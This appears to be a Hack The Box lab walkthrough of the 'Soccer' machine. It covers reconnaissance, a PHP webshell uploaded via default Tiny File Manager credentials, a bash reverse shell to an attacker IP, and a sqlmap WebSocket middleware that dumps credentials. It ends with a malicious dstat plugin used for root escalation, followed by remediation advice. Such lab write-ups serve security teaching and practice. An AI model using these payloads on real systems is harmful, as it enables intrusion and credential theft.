


# 🛡️ HTB Soccer Walkthrough

## 1. Machine Overview
*   **Machine Name:** Soccer
*   **Operating System:** Linux
*   **Difficulty:** Easy
*   **IP Address:** 10.129.174.33
*   **Attack Chain Summary:** A default credential login to Tiny File Manager allows for a PHP webshell upload, granting an initial foothold. Enumeration reveals a hidden virtual host utilizing WebSockets vulnerable to Blind SQL Injection, allowing extraction of SSH credentials. Finally, privilege escalation to root is achieved by exploiting a `doas` misconfiguration that allows the execution of `dstat` as root with a malicious custom plugin.

---

## 2. Reconnaissance & Enumeration

Initial enumeration begins with a comprehensive Nmap scan to identify running services and open ports.

### Port Scanning

```shell title="Nmap Scan"
nmap -sC -sV -T4 -oA reports/soccer_ 10.129.174.33 
```

```text title="Nmap Output"
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
9091/tcp open  xmltec-xmlmail?
...snip...
```

### Service Identification & Web Footprinting

Accessing the target via HTTP immediately redirects to `http://soccer.htb/`. 

```text
──(kali㉿kali)-[~/htb/soccor]
└─$ curl -i http://10.129.174.33                 
HTTP/1.1 301 Moved Permanently
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 22 Jun 2026 16:16:23 GMT
Content-Type: text/html
Content-Length: 178
Connection: keep-alive
Location: http://soccer.htb/
```

The target domain must be added to the local `/etc/hosts` file to proceed.

```shell
echo "10.129.174.33  soccer.htb" | sudo tee -a /etc/hosts
```

Navigating to `http://soccer.htb/` reveals a static website for the "HTB Football Club." None of the standard links appear functional. 


A directory brute-force attack using Gobuster identifies a hidden `/tiny/` directory.

```shell title="Gobuster Directory Bruteforce"
gobuster dir --url http://soccer.htb/ --wordlist /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 40
```

```text
===============================================================
Gobuster v3.8.2
...snip...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
...snip...
===============================================================
```

Accessing `http://soccer.htb/tiny/` presents a login portal for **Tiny File Manager**.



---

## 3. Initial Foothold

### The Vulnerability: Default Credentials & Insecure File Upload

Reviewing the official [Tiny File Manager GitHub repository](https://github.com/prasathmani/tinyfilemanager) reveals the default credentials outlined in the documentation:

```text
Default username/password: admin/admin@123 and user/12345.
```

Authenticating with `admin:admin@123` grants administrative access to the file manager. The application exposes the underlying filesystem, including an `uploads` directory.


Because the application allows arbitrary file uploads and runs on PHP, it is trivial to upload a PHP reverse shell if a writable directory is found. 

### Exploitation

While uploading directly to `/var/www/html/` is restricted, the `/tiny/uploads/` directory allows file creation. A simple PHP webshell is crafted:

```php title="shell.php"
<?php system($_REQUEST['cmd']);?>
```

Upload the `shell.php` file to `/tiny/uploads/` via the web interface.



Execution can be verified by passing a system command to the webshell via `curl`:

```shell title="Testing Execution"
curl http://soccer.htb/tiny/uploads/shell.php -d 'cmd=id'
```

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Start a netcat listener on the attack machine and execute a bash reverse shell payload:

```shell title="Reverse Shell"
sudo nc -lvnp 443
curl http://soccer.htb/tiny/uploads/shell.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261"'
```

A stable shell is caught as the `www-data` user.

```text
listening on [any] 443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.129.174.33] 44658
www-data@soccer:~/html/tiny/uploads$ 
```

### Lateral Movement: WebSocket SQL Injection

Operating as `www-data`, inspecting the Nginx configuration files reveals a hidden virtual host.

```shell title="Checking Nginx Sites"
cat /etc/nginx/sites-enabled/soc-player.htb
```

```text title="soc-player.htb config"
server {
    listen 80;
    server_name soc-player.soccer.htb;

    location / {
        proxy_pass http://localhost:3000;
        proxy_http_version 1.1;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection 'upgrade';
        proxy_set_header Host $host;
        proxy_cache_bypass $http_upgrade;
    }
}
```

This configuration exposes `soc-player.soccer.htb`, acting as a reverse proxy to a local service on port 3000 that explicitly supports WebSockets. After adding this to `/etc/hosts` and navigating to it, a ticket validation system is discovered.

The validation logic communicates over WebSockets (port 9091). The payload structure is a simple JSON object:

```json
{"id": "1234"}
```

Injecting a boolean SQL payload (`{"id": "1234 OR 1=1"}`) alters the application's response, confirming the presence of a Blind SQL Injection vulnerability within the WebSocket endpoint.

Since `sqlmap` cannot natively interact with raw WebSockets, a local Python middleware script is constructed to translate HTTP GET requests into WebSocket JSON payloads.

```python title="middleware.py"
from http.server import SimpleHTTPRequestHandler, HTTPServer
import urllib.parse
import websocket
import json

class ReqHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        ws = websocket.WebSocket()
        ws.connect("ws://soc-player.soccer.htb:9091/")
        
        # Extract payload from the HTTP query string
        qs = urllib.parse.parse_qs(urllib.parse.urlparse(self.path).query)
        payload = qs.get('id', [''])[0]
        
        # Forward as a WebSocket message
        ws.send(json.dumps({"id": payload}))
        resp = ws.recv()
        ws.close()
        
        self.send_response(200)
        self.end_headers()
        self.wfile.write(resp.encode())

if __name__ == '__main__':
    server = HTTPServer(('localhost', 8081), ReqHandler)
    server.serve_forever()
```

By running the middleware locally, `sqlmap` can be pointed to the proxy server:

```shell title="Extracting Credentials"
python3 middleware.py &
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -T accounts --dump --batch
```

```text
+------+-------------------+----------------------+
| id   | email             | password             |
+------+-------------------+----------------------+
| 1337 | player@player.htb | PlayerOftheMatch2022 |
+------+-------------------+----------------------+
```

### User Flag

These credentials permit direct SSH access into the system as the `player` user.

```shell
ssh player@10.129.174.33
cat /home/player/user.txt
```

---

## 4. Privilege Escalation

The final objective is to escalate privileges from `player` to `root`.

### Enumeration for PrivEsc

In environments where `sudo` is restricted or unavailable, administrators often utilize `doas` (a minimal privilege escalation tool originating from OpenBSD). Reviewing the `doas` configuration file reveals the command execution capabilities assigned to the `player` account.

```shell title="Checking doas configuration"
cat /usr/local/etc/doas.conf
```

```text
permit nopass player as root cmd /usr/bin/dstat
```

The configuration explicitly permits the `player` user to execute `/usr/bin/dstat` as `root` without requiring a password prompt.

### The Misconfiguration: `dstat` Custom Plugins

`dstat` is a versatile tool for generating system resource statistics that inherently supports custom plugins written in Python. When invoked, `dstat` searches specific directories for these plugins, including `/usr/local/share/dstat/`.

Verify the permissions of the plugin directory:

```shell title="Checking dstat plugin permissions"
ls -ld /usr/local/share/dstat/
```

```text
drwxrwxr-x 2 root player 4096 Jun 22 10:00 /usr/local/share/dstat/
```

The directory is writable by the `player` group. This is a critical misconfiguration: if an unprivileged user can write to the plugin directory, they can craft a malicious Python script, instruct `dstat` to load it, and execute arbitrary code within the context of the user running `dstat` (`root`).

### Exploitation

A malicious `dstat` plugin can be constructed to modify the permissions of `/bin/bash`, setting the SUID bit so it can be executed with elevated privileges. The plugin must follow the naming convention `dstat_<name>.py`.

```shell title="Deploying Malicious dstat Plugin"
cat << 'EOF' > /usr/local/share/dstat/dstat_exploit.py
import os
os.system("chmod +s /bin/bash")
EOF
```

Execute `dstat` via `doas`, invoking the malicious plugin using the `--exploit` flag:

```shell title="Triggering the Exploit"
doas -u root /usr/bin/dstat --exploit
```

The Python code executes as `root`, setting the SUID bit on `/bin/bash`. A privileged root shell can now be spawned by executing bash with the `-p` flag.

```shell title="Spawning Root Shell"
/bin/bash -p
```

```text
bash-5.0# whoami
root
```

### Root Flag

The root flag is located at `/root/root.txt`.

```shell
cat /root/root.txt
```

---

## 5. Conclusion & Takeaways

### Vulnerability Remediation
1. **Change Default Credentials:** The initial breach occurred strictly due to the Tiny File Manager deployment utilizing default credentials. All applications must have unique, strong passwords applied during deployment.
2. **Sanitize WebSocket Input:** The backend handling the WebSocket JSON payloads improperly concatenated the `id` field directly into a database query. Parameterized queries (prepared statements) should be utilized across all communication protocols, including WebSockets.
3. **Restrict Plugin Directories:** The `player` group should never have write access to `/usr/local/share/dstat/` if `dstat` is allowed to run as root via `doas`. The directory ownership should be restricted strictly to `root:root` with `755` permissions.

### Key Lessons
*   **WebSockets aren't immune to SQLi:** Traditional web vulnerabilities apply to WebSockets just as they do to HTTP. Using middleware to bridge standard tooling (like `sqlmap`) to non-standard protocols is a vital technique.
*   **`doas` is as dangerous as `sudo`:** Alternative privilege execution mechanisms must be audited with the same rigor as traditional `sudoers` files.
*   **Binary Execution Context:** Allowing a user to run a binary as root (like `dstat`) implicitly trusts how that binary handles external files, libraries, and plugins.